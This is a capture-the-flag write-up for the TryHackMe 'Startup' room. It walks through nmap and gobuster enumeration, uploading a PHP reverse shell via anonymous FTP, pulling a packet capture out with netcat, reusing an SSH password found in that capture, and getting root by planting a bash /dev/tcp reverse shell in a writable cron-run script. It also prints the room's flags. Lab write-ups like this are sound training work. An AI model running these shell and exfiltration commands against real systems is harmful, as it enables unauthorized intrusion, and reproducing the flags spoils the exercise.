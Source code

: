 # Startup

Tryhackme Startup - Linux - Easy

https://tryhackme.com/room/startup

## Nmap
```shell
└──╼ $nmap -sC -sV -oA nmap/startup 10.10.163.144
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-04 00:20 IST
Nmap scan report for 10.10.163.144
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.8.95.227
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

![Homepage](https://hackmd.io/_uploads/Sk6vkpdI2.png)

In homepage there is nothing, so to find directory, we have use gobuster.

```shell
└──╼ $gobuster dir -u 10.10.163.144 -w /usr/share/wordlists/dirb/common.txt 

... other stuff ...

/files
```

There are two files `notice.txt` and `important.jpg` but there is nothing in it.

notice.txt - `Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
`

From this, I got idea of uploading shell via FTP, login with `anonymous`.

You can download [PHP Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) and change IP and PORT.

```shell
└──╼ $ftp 10.10.163.144
Connected to 10.10.163.144.
220 (vsFTPd 3.0.3)
Name (10.10.163.144:user): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Jun 03 14:01 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (70.7910 MB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118          5493 Jun 03 14:01 php-reverse-shell.php
226 Directory send OK.
ftp> 
```

Go to reverse shell url and we will catch shell using `nc`

We got our first flag
```
www-data@startup:/$ cat recipe.txt
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

###  What is the secret spicy soup recipe?
Answer: `Love`

Now, go to `/incidents` on server, and we will get a wireshark file, we can download that using netcat

```shell
On server,
nc -w 3 10.8.95.227 1234 < suspicious.pcapng

On local,
nc -l -p 1234 > suspicious.pcapng
```

When we follow TCP stream in wireshark, we will get ssh password for `lennie`, that is `c4ntg3t3n0ughsp1c3`.

![](https://hackmd.io/_uploads/Hy3HU0u8h.png)

After login with lennie's credentials, we get user.txt flag.

```shell
$ ls
Documents  scripts  user.txt
$ cat user.txt
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

## Privilege Escalation

There are certain files in lennie's home folder, and we can edit `/etc/print.sh` therefore, I have put reverse shell in `print.sh` and using netcat, I got root user.

```shell
lennie@startup:~$ ls
Documents  scripts  user.txt
lennie@startup:~$ cd scripts/
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~/scripts$ cat /etc/print.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.8.95.227/6667 0>&1
echo "Done!"
```
Using netcat,
```shell
root@startup:~# ls
ls
root.txt
root@startup:~# cat ro	
cat root.txt 
THM{f963aaa6a430f210222158ae15c3d76d}
```
